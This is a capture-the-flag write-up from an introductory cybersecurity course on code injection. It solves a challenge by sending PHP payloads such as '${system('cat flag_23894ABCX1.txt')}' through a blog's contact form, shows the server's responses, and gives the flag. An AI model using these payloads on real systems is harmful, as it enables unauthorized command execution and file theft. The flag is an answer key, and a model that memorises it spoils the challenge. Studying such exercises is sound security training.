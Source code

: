 # Lesson 14: Code Injection

> Lesson Link:\
> *[https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/code-injection](https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/code-injection)*

## Introduction

In this lesson, we will learn about Code Injection, and how can we use it to execute commands on the server.

> ### What is Code Injection?
>
> #### Code injection is a web security vulnerability that allows an attacker to execute arbitrary code on the host server that is running an application. Code injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Code injection attacks are possible mainly due to insufficient input validation

## Challenge

> Name:\
> *Hashable*

---

> Description:\
> *A famous enterprise blog was hacked, can you figure out how it was hacked?*

## Solution

In this challenge, we have a website, we need to get the flag.

So First of all, lets navigate to the contact page, and try to send a message to the admin.

That contains this payload:

```php
${system('pwd')}
```

After sending the request, we will get a response that says:

```html
/var/www/html Message successfully sent!
```

So, we can see that the website is using `system` function to execute the command, and we can use it to get the flag.

Lets try to send this payload to the website:

```php
${system('ls')}
```

After sending the request, we will get a response that says:

```html
about.php contact.php css flag_23894ABCX1.txt footer.php gulpfile.js header.php img index.php js package-lock.json package.json post.php scss vendor Message successfully sent!
```

Here is the flag file, lets read it:

```php
${system('cat flag_23894ABCX1.txt')}
```

After sending the request, we will get a response that says:

```html
18ab51f960bd149bcb2497b9998c752c Message successfully sent!
```

And Here is the flag.

## Flag

> 18ab51f960bd149bcb2497b9998c752c

## References

- [https://www.owasp.org/index.php/Code_Injection](https://www.owasp.org/index.php/Code_Injection)
